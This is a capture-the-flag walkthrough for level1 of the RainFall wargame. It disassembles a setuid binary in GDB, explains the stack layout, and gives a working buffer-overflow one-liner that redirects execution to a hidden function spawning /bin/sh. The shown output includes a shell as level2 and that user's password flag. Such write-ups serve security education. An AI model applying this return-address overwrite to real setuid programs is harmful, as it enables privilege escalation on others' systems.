

# Level1

## Walkthrough

We list the files in the current home directory.

```bash
level1@RainFall:~$ ls -la
total 17
dr-xr-x---+ 1 level1 level1   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level1 level1  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level1 level1 3530 Sep 23  2015 .bashrc
-rw-r--r--+ 1 level1 level1   65 Sep 23  2015 .pass
-rw-r--r--  1 level1 level1  675 Apr  3  2012 .profile
-rwsr-s---+ 1 level2 users  5138 Mar  6  2016 level1
```

The file is owned by **level2** and has the **setuid** bit.

We list the functions inside the executable and analyze their assembly code with **GDB**.

```
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x080482f8  _init
0x08048340  gets
0x08048340  gets@plt
0x08048350  fwrite
0x08048350  fwrite@plt
0x08048360  system
0x08048360  system@plt
0x08048370  __gmon_start__
0x08048370  __gmon_start__@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  run
0x08048480  main
0x080484a0  __libc_csu_init
0x08048510  __libc_csu_fini
0x08048512  __i686.get_pc_thunk.bx
0x08048520  __do_global_ctors_aux
0x0804854c  _fini
```

There are 2 interesting functions: `main()` and `run()`.

```
(gdb) disas main
Dump of assembler code for function main:
   0x08048480 <+0>:     push   ebp
   0x08048481 <+1>:     mov    ebp,esp
   0x08048483 <+3>:     and    esp,0xfffffff0
   0x08048486 <+6>:     sub    esp,0x50
   0x08048489 <+9>:     lea    eax,[esp+0x10]
   0x0804848d <+13>:    mov    DWORD PTR [esp],eax
   0x08048490 <+16>:    call   0x8048340 <gets@plt>
   0x08048495 <+21>:    leave
   0x08048496 <+22>:    ret
End of assembler dump.
```

The `main()` function:
- decrements the stack pointer by `0x50` bytes
- performs a bitwise `AND` operation on `esp` ([detailled explanation](#calculation-of-esp-after-and-instruction)) to decrement the stack pointer by 8 bytes
- sets the start of a buffer to `esp + 0x10` passed as a first argument to `gets()`
- calls `gets()` before returning

But `run()` is never called.

```
(gdb) disas run
Dump of assembler code for function run:
   0x08048444 <+0>:     push   ebp
   0x08048445 <+1>:     mov    ebp,esp
   0x08048447 <+3>:     sub    esp,0x18
   0x0804844a <+6>:     mov    eax,ds:0x80497c0
   0x0804844f <+11>:    mov    edx,eax
   0x08048451 <+13>:    mov    eax,0x8048570
   0x08048456 <+18>:    mov    DWORD PTR [esp+0xc],edx
   0x0804845a <+22>:    mov    DWORD PTR [esp+0x8],0x13
   0x08048462 <+30>:    mov    DWORD PTR [esp+0x4],0x1
   0x0804846a <+38>:    mov    DWORD PTR [esp],eax
   0x0804846d <+41>:    call   0x8048350 <fwrite@plt>
   0x08048472 <+46>:    mov    DWORD PTR [esp],0x8048584
   0x08048479 <+53>:    call   0x8048360 <system@plt>
   0x0804847e <+58>:    leave
   0x0804847f <+59>:    ret
End of assembler dump.
(gdb) x/s 0x8048584
0x8048584:	 "/bin/sh"
```

The `run()` function:
- writes a message
- calls `system()`, passing the data at `0x8048584` as first argument. The address contains the `/bin/sh` string.

With these information in mind, we know that we have to exploit the executable with a **buffer overflow**, overriding the `eip` register at the end of `main()` with the address of `run()`. A buffer of 72 bytes is passed to `gets()` without any validation, allowing us to write more than 64 characters in it.

In order to simplify the calculation of the required number of characters to input, we draw a diagram of the stack.



92 - 16 = 76 bytes.

We run a **Python** script onto the command line to print 76 characters and append them with 4 bytes representing the address of `run()`.  
Because our system is **little-endian**, we have to pass the address from the least-significant byte to the most-significant one: `0x08048444` becomes `0x44840408`.

```bash
level1@RainFall:~$ python -c "print('a' * 76 + '\x44\x84\x04\x08')" | ./level1
Good... Wait what?
Segmentation fault (core dumped)
```

Our script is working because the message of `run()` is printed on stdout, but the shell process is instantly closed.  
After some researches, we find a solution using the `cat` command.

```bash
level1@RainFall:~$ (python -c "print('a' * 76 + '\x44\x84\x04\x08')"; cat) | ./level1
Good... Wait what?
whoami
level2
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

## Additional information

### Calculation of `esp` after `AND` instruction

We set a breakpoint at the `0x08048483 <+3>: and esp,0xfffffff0` instruction to display the content of the `esp` register.

```
(gdb) break *0x08048483
Breakpoint 1 at 0x8048483
(gdb) r
Starting program: /home/user/level1/level1 

Breakpoint 1, 0x08048483 in main ()
(gdb) info registers
eax            0x1	1
ecx            0xbffff6e4	-1073744156
edx            0xbffff674	-1073744268
ebx            0xb7fd0ff4	-1208152076
esp            0xbffff648	0xbffff648
ebp            0xbffff648	0xbffff648
esi            0x0	0
edi            0x0	0
eip            0x8048483	0x8048483 <main+3>
eflags         0x200246	[ PF ZF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
```

`esp` is currently holding the address `0xbffff648`.  
We execute the next instruction with `stepi` and check the new address held by `esp`.

```
(gdb) stepi
0x08048486 in main ()
(gdb) info registers
eax            0x1	1
ecx            0xbffff6e4	-1073744156
edx            0xbffff674	-1073744268
ebx            0xb7fd0ff4	-1208152076
esp            0xbffff640	0xbffff640
ebp            0xbffff648	0xbffff648
esi            0x0	0
edi            0x0	0
eip            0x8048486	0x8048486 <main+6>
eflags         0x200282	[ SF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
```

`esp` is now holding the address `0xbffff640`.

| Information | Hexadecimal | Binary |
| --- | --- | --- |
| Before `ADD` | 0xbffff648 | 10111111111111111111011001001000 |
| `AND` second operand | 0xfffffff0 | 11111111111111111111111111110000 |
| After `AND` | 0xbffff640 | 10111111111111111111011001000000 |

As a result of this `AND` instruction, the stack pointer has been decremented by 8 bytes.

## Resources

- [An Introduction to Buffer Overflow Vulnerability](https://freedium.cfd/https://medium.com/techloop/understanding-buffer-overflow-vulnerability-85ac22ec8cd3#:%7E:text=A%20Beginner%E2%80%99s%20Guide%20to%20Buffer%20Overflow%20Vulnerability%201,Overflow%20...%207%20Security%20Measures%20...%208%20References)
- [Running a Buffer Overflow Attack - Computerphile](https://www.youtube.com/watch?v=1S0aBV-Waeo)
- [Buffer Overflows Part 1 - Jumping to Local Functions](https://www.youtube.com/watch?v=svgK9fNGTfg)
- [Why can't I open a shell from a pipelined process?](https://unix.stackexchange.com/questions/203012/why-cant-i-open-a-shell-from-a-pipelined-process)
